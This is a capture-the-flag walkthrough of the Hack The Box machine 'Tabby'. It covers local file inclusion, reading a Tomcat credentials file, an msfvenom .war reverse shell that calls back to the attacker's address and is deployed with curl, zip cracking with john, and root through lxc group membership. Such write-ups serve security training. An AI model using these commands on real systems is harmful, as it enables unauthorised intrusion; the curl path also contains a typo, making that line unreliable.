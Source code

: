 # Tabby

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16) (3) (2).png" alt=""><figcaption></figcaption></figure>

### LFI

We would have to add `megahosting.htb` to our `/etc/hosts` file to view port 80. Afterwards, we would just see something like this on the page:

<figure><img src="../../../.gitbook/assets/image (35) (1) (3).png" alt=""><figcaption></figcaption></figure>

When we press the Compare button, we would be brought to `/news.php?file=statement`. I tested for LFI, and it worked!

<figure><img src="../../../.gitbook/assets/image (25) (2) (2).png" alt=""><figcaption></figcaption></figure>

### Tomcat

Tomcat was running on port 8080, and we would need to somehow get the manager password to upload a .war reverse shell. Since we have LFI, we can read it at `/usr/share/tomcat9/etc/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

The password is `$3cureP4s5w0rd123!`. Then, we can login to the admin dashboard, create a .war reverse shell using `msfvenom`, upload it, and execute it via `curl`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f war -o rev.war
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/mnager/text/deploy?path=/shell --upload-file rev.war
```

<figure><img src="../../../.gitbook/assets/image (15) (1) (3) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Zip --> Ash

When looking aroun the file system, I found this backup file here:

<figure><img src="../../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>

This waws password protected, so let's transfer this back to our machine via `nc` and then use `john` on it:

<figure><img src="../../../.gitbook/assets/image (10) (2) (6).png" alt=""><figcaption></figcaption></figure>

The backup file had nothing on it...which was weird. Since we have a password, might as well try `su`, and it worked to getting to `ash`:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

### LXC Group

When we check the `id` of `ash`, we see that they are part of the `lxc` group.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

This exploitable because we can create a container and mount it with root access to the main machine.

{% embed url="https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/" %}

Following the resource above, we can spawn a root shell:

<figure><img src="../../../.gitbook/assets/image (19) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
